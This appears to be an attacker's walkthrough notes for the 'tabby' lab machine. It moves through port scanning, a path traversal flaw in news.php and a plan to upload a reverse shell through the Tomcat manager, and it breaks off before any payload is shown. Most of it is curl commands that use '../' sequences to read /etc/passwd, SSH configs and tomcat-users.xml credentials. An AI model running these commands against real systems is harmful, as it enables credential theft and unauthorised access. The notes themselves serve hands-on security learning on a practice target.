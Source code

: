 # tabby

```sh
## kali

sudo su -
cd projects
mkdir tabby
cd tabby
mkdir share
mkdir foothold
mkdir exfil
mkdir privesc

nv /etc/local # add: 10.10.10.194 tabby

sup tabby # nmap scans.

so tabby # scan summary and setting vars.

# 22 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
ssh tabby # denied, publickey

# 80 Apache httpd 2.4.41 ((Ubuntu))
  # browser ->
    # nothing on the quick

# 8080 Apache Tomcat
  # browser -> open all links
    # /docs -> Apache Tomcat 9 (Version 9.0.31, Feb 24 2020)
    # /examples -> are installed
    # /manager & /host-manager -> ask for password (401 gives info)
    # users are defined in /etc/tomcat9/tomcat-users.xml

dirb http://tabby/ -o dirb80.log
dirb http://tabby:8080/ -o dirb8080.log

tail -F *.log | grep --line-buffered ^==
```

```sh
## vmhost

# local port forwarding so we can browse the sites from outside kali:
ssh -N kali -L 0.0.0.0:80:tabby:80
ssh -N kali -L 0.0.0.0:8080:tabby:8080

# port 80
# wappalyzer: apache 2.4.41, ubuntu

# port 8080
# wappalyzer: apache 2.4.41, ubuntu

# no new info :/
```

```sh
## kali

# port 22
searchsploit openssh 8 # nothing useful.
# https://www.cybersecurity-help.cz/vdb/SB2020052708

# port 80
searchsploit apache 2 # no public exploit for 2.4.41.

# port 8080
searchsploit tomcat
# https://tomcat.apache.org/security-9.html
# nothing useful.
```

---

I mean the box is called `tabby` so it's probably a Tomcat exploit.

```sh
grep ^== dirb* # nothing interesting.
```
* port 8080 via browser, still nothing
* port 80 via browser:
* some links point to megahosting.htb
* try them with the server.
  * `news.php` with `file` parameter!
* let's try passing some files:
  * first the one from the page:
    * `/news.php?file=statement`
      * nice apology
    * `/news.php?file=index.html`
      * empty page
* let's switch to curl

```sh
## kali
curl -s tabby > index80.html
grep .htb index80.html # a mail address and the aforementioned news.php

curl tabby/news.php?file=statement # yep, it's still the statement.
curl tabby/news.php?file=index.html # empty.
curl tabby/news.php?file=index.php # empty.
curl tabby/news.php?file=../index.html # empty.
curl tabby/news.php?file=../index.php # jackpot! it's the root index file.
curl tabby/news.php?file=../../index.php # empty.

# let's try breaking out and fetching a file that was mentioned on tabby:8080
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/ROOT/index.html # it works!

# when we entered a wrong password, tabby:8080/manager/html mentioned conf/tomcat-users.xml
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/conf/tomcate-users.xml # empty :(

# whoops, one an errant e
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/conf/tomcat-users.xml # nope.
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/conf/tomcat-users.xml # nope.
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/ROOT/conf/tomcat-users.xml # nope.

# let's google the location for tomcat-users.xml

# $CATALINA_BASE/conf/tomcat-users.xml
# $CATALINA_BASE is /var/lib/tomcat9
# should work, but does not.

# remove ../ until we find the last that works. 4 are enough to get to the root dir.
# try something else:
cd exfil
curl tabby/news.php?file=../../../../usr/share/doc/tomcat9-common/RUNNING.txt.gz --output RUNNING.txt.gz
gunzip *.gz

# read it.
# try another path:
curl tabby/news.php?file=../../../../etc/hosts # works.

# let's look for the ubuntu tomcat package:
# https://packages.ubuntu.com/search?keywords=tomcat9
# I don't know the exact Ubuntu version, I'm assuming they are all similar:
# https://packages.ubuntu.com/focal/all/tomcat9/filelist
curl tabby/news.php?file=../../../../../etc/cron.daily/tomcat9 # works. good start.
curl tabby/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml # YES!

# let's download it:
curl tabby/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml -o tomcat-users.xml
grep password *.xml

# let's try those credentials:
# tabby:8080/manager/html # nope
  # can we find those creds too?
# tabby:8080/manager/host-manager # yes!
  # now we have access to the Tomcat Virtual Host Manager
```

Wait a minute!

```sh
## kali
# totally forgot, there's ssh running!
curl tabby/news.php?file=../../../../../etc/ssh/sshd_config > sshd_config
curl tabby/news.php?file=../../../../../etc/ssh/ssh_config > ssh_config
# private keys can't be fetched, oh well.
```

Maybe the webserver on port 80

```sh
curl tabby/news.php?file=../../../../var/www/html/index.php
# maybe we can get news.php
curl tabby/news.php?file=../../../../var/www/html/news.php > news.php # yes!
curl tabby/news.php?file=../../../../var/www/html/index.php > index.php # might as well.
curl tabby/news.php?file=../../../../lib/systemd/system/tomcat9.service > tomcat9.service # should give us the paths.

curl http://tabby/news.php?file=../../../../etc/passwd > passwd # at least we will get the usernames.
egrep -v "bin/nologin|bin/false" passwd
# we found a new user: ash
# can't manage to extract any info though.
```
---

Alright, after a couple of hours I've looked up a hint:
The idea is to upload a shell via the Tomcat manager.
(I did not know you could upload things, so I would have
not figured that out anytime soon.)

* http://tabby:8080/host-manager/html
  * click server status
  * click complete server status
    * (http://tabby:8080/manager/status/all)
    * take a look at the applications
      * let's add our own
      * as soon as we call it our payload will be executed
      * let's create a TCP reverse shell

* Tomcat uses Java JSPs. (JavaServerPages).
* WAR files: Web Applications aRchives (contains a JAR)
* JAR files: Java ARchives

The URL for uploading WAR files is http://tabby:8080/manager/text/deploy

```sh

```
